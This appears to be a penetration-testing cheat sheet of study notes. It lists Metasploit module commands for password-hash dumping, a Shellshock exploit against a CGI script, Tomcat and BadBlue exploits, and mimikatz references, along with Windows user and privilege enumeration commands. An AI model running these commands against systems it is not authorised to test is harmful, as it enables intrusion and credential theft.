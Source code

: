 
### Dumping hashes with mimikatz
  - [Mimikatz](/Q&A/mimikatz.md)

# Linux post exploit
 ```
use post/linux/gather/hashdump
set session 1
exploit
```
- __use `loot`__ 


# Web

/gettime.cgi Bash CVE-2014-6271 Vulnerability (Shellshock)
  - __`use exploit/multi/http/apache_mod_cgi_bash_env_exec`__
    - __`set TARGETURI /gettime.cig`__
  - [Shellshock](/Q&A/Shellshock.md)

Apache Tomcat 8080
  - __`search type:exploit tomcat`__
  - [tomcat](/Q&A/tomcat.md)

80 XODA running 
  - __`search xoda`__
  - [xoda](/Q&A/xoda.md)

80 http HttpFileServer httpd 2.3 for windows server
  - __`search rejetoo`__

80 BadBlue httpd 2.7 (mimikatz)
  - __`search badblue 2.7`__
  - __`use exploit/windows/http/badblue_passthru`__
  - [Mimikatz](/Q&A/mimikatz.md)


# Windows commands 
- __current logged on user__
  - __`query user`__
  - __it is a windows command__
  - __or you can use `net users`__
  - __`net user <user_name>` for more information on that user__
  - __`use post/windows/gather/enu_logged_on_users`__
  - __`net localgroup`__
  - __`net localgroup administrator`__

- __To know the current privilages__
  - __`whoami /priv`__
  
- __`route print`__
